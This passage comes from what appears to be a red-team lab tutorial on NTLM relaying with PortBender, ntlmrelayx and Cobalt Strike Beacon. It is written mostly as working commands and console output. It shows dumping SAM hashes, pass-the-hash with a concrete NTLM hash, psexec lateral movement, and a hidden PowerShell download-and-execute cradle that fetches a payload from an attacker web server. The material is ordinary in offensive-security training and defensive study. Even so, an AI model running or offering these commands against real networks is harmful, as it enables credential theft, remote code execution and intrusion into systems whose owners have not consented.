 PortBender will log the connection:

```
New connection from 10.10.17.132:50332 to 10.10.17.231:445
Disconnect from 10.10.17.132:50332 to 10.10.17.231:445
```

ntlmrelayx will then spring into action.  By default it will use [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) to dump the local SAM hashes from the target machine.  In this example, I'm relaying from WKSTN-2 to SRV-2.

![.gitbook/assets/1663788082.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788095/mvwnna8my3rrjjoojhvp.png)

Local NTLM hashes could then be cracked or used with pass-the-hash.

```
beacon> pth .\Administrator b423cdd3ad21718de4490d9344afef72

beacon> jump psexec64 srv-2 smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_a3) on srv-2 via Service Control Manager (\\srv-2\ADMIN$\3695e43.exe)
Started service 3695e43 on srv-2
[+] established link to child beacon: 10.10.17.68
```

Instead of being limited to dumping NTLM hashes, ntlmrelayx also allows you to execute an arbitrary command against the target.  In this example, I download and execute a PowerShell payload.

```
root@kali:~# proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://10.10.17.68 -smb2support --no-http-server --no-wcf-server -c
'powershell -nop -w hidden -c "iex (new-object net.webclient).downloadstring(\"http://10.10.17.231:8080/b\")"'
```

After seeing the hit on the web log, connect to the waiting Beacon.

```
07/23 16:28:27 visit (port 80) from: 10.10.5.120
Request: GET /b
page Scripted Web Delivery (powershell)
null

beacon> link srv-2
[*] Tasked to link to \\srv-2\pipe\msagent_a3
[+] host called home, sent: 32 bytes
[+] established link to child beacon: 10.10.17.68
```

![.gitbook/assets/1663788082.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788096/k2x71vqnrjcnhwjkcp2n.png)

To stop PortBender, stop the job and kill the spawned process.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 0    1240  PortBender

beacon> jobkill 0
beacon> kill 1240
```
